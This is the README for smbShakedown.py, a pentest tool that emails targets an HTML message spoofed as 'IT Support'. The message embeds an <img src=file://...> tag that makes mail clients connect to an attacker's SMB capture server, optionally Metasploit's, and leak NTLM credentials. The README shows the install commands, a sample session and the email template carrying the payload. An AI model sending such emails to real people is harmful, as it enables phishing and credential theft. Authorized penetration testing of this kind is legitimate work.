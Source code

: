 #smbShakedown.py
    Description: A simplified SMB Email Client Attack script used for pentests.
    Created by: Nick Sanzotta / @beamr
    Version: smbShakedown.py v 1.0
  
    
Installation
***
    git clone https://github.com/NickSanzotta/smbShakedown.git
    cd smbShakedown/
    python smbShakedown.py
***
#Usage
    1.Enter SMTP Server address:
    
    2.Enter SMTP Server credentials: 
    (anonymous connections not supported.)
    
    3.Configure "from" and "to" addresses:
    (separate multiple email addresses with a comma)
    
    4.Enter SMBCapture Server IP address, so it can be placed in body of email:
    EX: <img src=file://127.0.0.1/image/foo.gif>
    
    5. Choose whether or not to launch Metasploit's SMB Capture server.

#Example
        
        Enter SMTP Server address[smtp.gmail.com]: 
        ENTERED: "smtp.gmail.com"

        Enter your SMTP Server Port[587]: 
        ENTERED: "587"

        Enter SMTP Server username[user@gmail.com]: 
        ENTERED: "user@gmail.com"

        Enter SMTP Server password: 

        Enter SMB Capture Server IP address[10.37.242.7]: 
        ENTERED:10.37.242.7

        Enter "from name":[IT Support]
        ENTERED:IT Support
        
        Enter "from address":[user@gmail.com]:user@gmail.com
        ENTERED:user@gmail.com
        
        Enter recipient(s) name[Bob]: Bob
        ENTERED:Bob
        
        etc..
        
#To update email template modify the following in source:
 
    ### EDIT: Email Message Template Below ###
	message = """From: {0} <{1}>
    To: {2} <{3}>
    MIME-Version: 1.0
    Content-type: text/html
    Subject: smbShakedown.py test.


    ...
    <b>smbShakedown.py test message.</b>
    <br>
    <img src=file://{4}/image/foo.gif>
    """
    ##########################################################

#To do:
    Add error handling.


